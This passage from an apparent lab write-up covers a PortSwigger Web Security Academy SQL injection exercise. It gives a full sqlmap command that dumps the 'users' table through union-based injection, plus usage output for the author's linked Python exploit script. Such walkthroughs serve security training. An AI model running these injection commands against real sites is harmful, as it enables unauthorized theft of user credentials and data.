 * <strong><font color="White">Execution:</font></strong>  
![2023-02-24 08_00_33-HACKING_MACHINE - VMware Workstation 16 Player (Non-commercial use only)](https://user-images.githubusercontent.com/101610095/221113676-d7224171-9ec8-442d-b008-e663e506c820.png)<br/>

> 📝 ***Here the database ```public``` is the one we are interested in.***

**📍 Dumping data from table 'users' in database 'public'**
* <strong><font color="White">Command:</font></strong> 
```console
root@kali# sqlmap --proxy=http://127.0.0.1:8080 -u 'https://0aa8007d033d30a9c0f2d25500e700ca.web-security-academy.net/filter?category=*' -p category --technique=U --threads=5 --level=4 --risk=3 -D public -T users --dump --batch
```
* <strong><font color="White">Options:</font></strong><br/> 
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; - -dump : Dump database table entries <br/>

* <strong><font color="White">Execution:</font></strong>  
![2023-02-24 07_58_23-HACKING_MACHINE - VMware Workstation 16 Player (Non-commercial use only)](https://user-images.githubusercontent.com/101610095/221113993-b9113a42-353a-4d27-88a3-377850614303.png)

#### **<strong><font color="RosyBrown">Python3</font></strong>**
***

* You can find the source code <a href="https://github.com/YounesTasra-R4z3rSw0rd/Web-Security-Academy/blob/main/SQL%20Injection/Lab%236/Lab-6.py" target="_blank"><er>here</er></a>

* <a href="https://github.com/YounesTasra-R4z3rSw0rd/Web-Security-Academy/blob/main/SQL%20Injection/Lab%236/requirements.txt" target="_blank"><er>Requirements</er></a>:

```console
$ pip3 install -r requirements.txt
```
* Help Menu:

```console
$ python3 Lab-6.py --help
usage: Lab-6.py [-h] -u URL [-n]

Usage Example: python3 Lab-6.py --url https://0a2100.web-security-academy.net/ --no-proxy

options:
  -h, --help         show this help message and exit
  -u URL, --url URL  Enter the Lab URL
  -n, --no-proxy     Do not use proxy                               
```
![Lab-6](https://user-images.githubusercontent.com/101610095/221149027-bd9696a0-8880-450e-b5b0-e1cad7d17184.gif)
